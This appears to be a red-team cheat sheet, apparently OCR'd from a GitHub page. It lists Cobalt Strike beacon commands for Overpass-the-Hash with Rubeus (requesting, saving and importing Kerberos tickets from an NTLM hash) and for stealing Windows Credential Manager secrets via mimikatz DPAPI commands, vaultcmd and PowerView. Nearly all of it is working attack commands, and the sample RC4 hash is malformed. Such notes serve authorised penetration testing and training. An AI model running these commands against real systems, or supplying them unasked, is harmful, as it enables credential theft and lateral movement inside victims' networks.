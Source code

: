 ##### Overpass-the-Hash

enum

```
beacon> execute-assembly /opt/tools/Rubeus.exe triage
```

ptt

```
beacon> execute-assembly /opt/tools/Rubeus.exe asktgt /user:b.builder /rc4:8t2g408a8aec852ef2e458b938b8b820 /nowrap /ptt
```

import

```
# get ticket
beacon> execute-assembly /opt/tools/Rubeus.exe asktgt /user:b.builder /rc4:8t2g408a8aec852ef2e458b938b8b820 /nowrap
[...]

# store ticket
PS > [System.IO.File]::WriteAllBytes("C:\Users\adm\Desktop\b.builder-tgt.kirbi", [System.Convert]::FromBase64String("qoIE[...snip...]Mllz"))

# burn session
beacon> make_token vault\b.builder fakepassword
[...]

# import
kerberos_ticket_use C:\Users\adm\Desktop\b.builder-tgt.kirbi
```

## Credential Manager

Local Admin

```
beacon> mimikatz sekurlsa::dpapi
[...]
```

Standard User

```
# list creds
beacon> shell vaultcmd /listcreds:"Windows Credentials" /all
[...]

# list files
beacon> ls c:\users\<user>\AppData\Local\Microsoft\Credentials

# Get blob, note guidMasterKey and pbData
beacon> mimikatz dpapi::cred /in:c:\users\<user>\AppData\Local\Microsoft\Credentials\<credential>
[...]

# get user sid
beacon> powershell-import /opt/tools/PowerSploit/Recon/PowerView.ps1
beacon> powershell ConvertTo-SID -ObjectName 'h.samuelson' -Domain 'vault.io'
S-1-5-21[...]

# get MasterKey
beacon> c:\users\h.samuelson\appdata\Roaming\Microsoft\Protect\<sid>\
[...]

beacon> mimikatz dpapi::masterkey /in:c:\users\h.samuelson\appdata\Roaming\Microsoft\Protect\<sid>\<guid> /rpc
```